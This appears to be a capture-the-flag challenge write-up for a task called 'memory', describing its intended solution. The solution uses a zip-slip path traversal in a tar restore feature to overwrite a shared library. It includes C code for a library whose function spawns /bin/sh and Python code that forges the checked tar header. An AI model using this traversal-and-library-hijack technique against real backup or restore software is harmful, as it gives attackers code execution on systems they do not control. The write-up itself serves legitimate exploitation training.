




# memory

## Vulnerability
overwrite library for command injection using zip slip vuln.

## Intended Solution
When the program restores, it checks validation of backup file. if there is no problem, it dynamically loads the library and decompresses it using tar with `P` option which can cause the zip slip vulnerability.    
  
  

In general, it is decompressed to the data folder(./data), but you can overwrite the library in the lib folder(./lib/libutil.so) using zip slip(./../lib/libutil.so).

0. make the dynamic library including "execute(char* cmd)" function
    ```
    #include <stdio.h>

    void execute(char *cmd){
        system("/bin/sh");
    }

    ```

1. modify the file name field of the tar file( ./../lib/libutil.so )  


2. add a custom header at the beginning of a tarf file
   custom header : ({magic string}4byte+{tar file size}4byte+ {sha256hash of tarfile}32byte)
   ```
   m = hashlib.sha256()
   fd = open("./hack.tar","rb")
   tar = fd.read()
   m.update(tar)
   tar_hash = m.digest()
   magic = b"SCTF"
   payload = magic + struct.pack("<i",len(tar))+tar_hash+tar
   ```
3. choose the restore menu and send a payload then you can overwrite the libutil.so file 

4. choose the backup menu then you can get a shell   

